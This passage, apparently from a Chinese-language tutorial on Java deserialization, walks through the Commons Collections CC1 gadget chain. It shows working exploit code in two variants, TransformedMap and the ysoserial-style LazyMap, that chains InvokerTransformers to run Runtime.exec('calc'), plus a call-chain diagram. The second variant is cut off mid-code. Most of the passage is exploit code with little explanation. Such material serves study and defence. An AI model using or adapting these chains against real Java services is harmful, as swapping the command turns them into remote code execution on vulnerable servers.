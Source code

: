 ```plain
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "v");
        Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ann = c.getDeclaredConstructor(Class.class, Map.class);
        ann.setAccessible(true);
        Object annIns = ann.newInstance(Target.class, transformedmap);
        serialize(annIns);
        unserialize("ser.bin");
    }
}
```

当我们上面简述的版本时国内大佬的版本，这个版本是通过Transformedmap类来调用tranforms方法的，

原始（ysoserial）版本时利用的`LazyMap.get()`，然后通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法

**调用链**

```plain
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        Map(Proxy).entrySet()
            AnnotationInvocationHandler.invoke()
                LazyMap.get()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```

```plain
public static void main(String[] args) throws Exception {
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> Lazymap = LazyMap.decorate(map, chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
```